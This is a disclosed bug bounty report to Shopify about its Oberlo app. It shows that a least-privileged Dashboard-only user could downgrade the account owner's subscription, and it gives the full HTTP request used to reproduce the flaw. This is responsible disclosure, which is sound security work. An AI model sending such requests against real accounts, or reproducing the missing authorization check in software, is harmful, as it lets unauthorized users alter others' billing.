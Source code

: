 # [h1-2102] [Oberlo] Least privileged user can cancel account owner's subscription via POST on  /payments/subscribe 

## Report Details
- **Report ID**: 1084865
- **URL**: https://hackerone.com/reports/1084865
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-01-22T21:02:05.859Z
- **Disclosed**: 2024-01-17T18:26:30.756Z

## Reporter
- **Username**: archangel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:

Within Oberlo, it's possible to have a bare permission user with only access to the dashboard. This user can make an API call which will cancel the subscription.

## Steps To Reproduce:
[add details for how we can reproduce the issue]

1) Have a `Boss subscription` account on app.oberlo.com
2) Within this account, have 2 users: `userA` is our admin, and `userB` is our attacker with only `Dashboard` permissions:

{F1168406}

3) Log in as `User B` and make the following call:

```
POST /payments/subscribe HTTP/1.1
Host: app.oberlo.com
Connection: close
Content-Length: 19
sec-ch-ua: "Google Chrome";v="87", " Not;A Brand";v="99", "Chromium";v="87"
Accept: application/json, text/plain, */*
█████
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: https://app.oberlo.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://app.oberlo.com/settings/other
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: <REDACTED>


{
"planId":10
}

```

4) You should get a 200 response
5) Log back in as `UserA` and see that your subscription is set to the "Free Tier" as soon as the current billing cycle finishes.

## Impact

Least privileged users can modify subscription tiers

## Attachments
- Screen_Shot_2021-01-21_at_9.59.05_PM.png
